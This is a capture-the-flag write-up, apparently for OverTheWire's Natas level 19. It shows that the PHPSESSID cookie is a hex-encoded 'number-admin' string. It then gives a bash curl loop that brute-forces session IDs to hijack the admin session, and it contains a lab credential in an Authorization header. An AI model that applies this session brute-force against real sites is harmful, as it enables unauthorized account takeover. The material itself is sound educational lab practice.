 Looks like there is a fixed value and a variable value in the PHPSESSID

```text
XX     + 2d61646d696e
XXXX   + 2d61646d696e
XXXXXX + 2d61646d696e
```

The unfixed value is always 2 4 or 6 chars long. ASCII in HEX is 2 chars log. Let check that.

```text
~# xxd -ps -r phpsessionid.hex  phpsessionid.txt
~# cat phpsessionid.txt
1-admin
3-admin
4-admin
...
637-admin
638-admin
639-admin
640-admin
```

So we have a random number between 1 and 640 again, only with -admin added.  
Lets first just try admin \(61646d696e\) if that doenst work, lets brute force it.

nope

```bash
SessionCookie="PHPSESSID=61646d696e"
curl_output=$(curl -s $'http://natas19.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --cookie "$SessionCookie" --data 'username=admin&password=password')

echo $curl_output 
 </html> logged in as a regular user. Login as an admin to retrieve credentials for natas20.</div>al...</head>thewire.org/js/wechall.js"></script>
```

Script

```bash
MaxCookieID=640
CurrentID=0
while [ $CurrentID -ne $MaxCookieID ]
do
    CurrentID=$(( $CurrentID + 1 ))
    CurrentIDHEX=$(echo -n "$CurrentID-admin" | xxd -p)
    SessionCookie="PHPSESSID=$CurrentIDHEX"
    curl_output=$(curl -s $'http://natas19.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --cookie "$SessionCookie" --data 'username=admin&password=password')
    if echo $curl_output | grep -q "regular user"; then
        echo "[-] $CurrentID out of $MaxCookieID is not a admin session."
    else
        echo "[+] $CurrentID out of $MaxCookieID is a admin session."
        echo "$(echo $curl_output | grep Password)"
        break
    fi
done
```
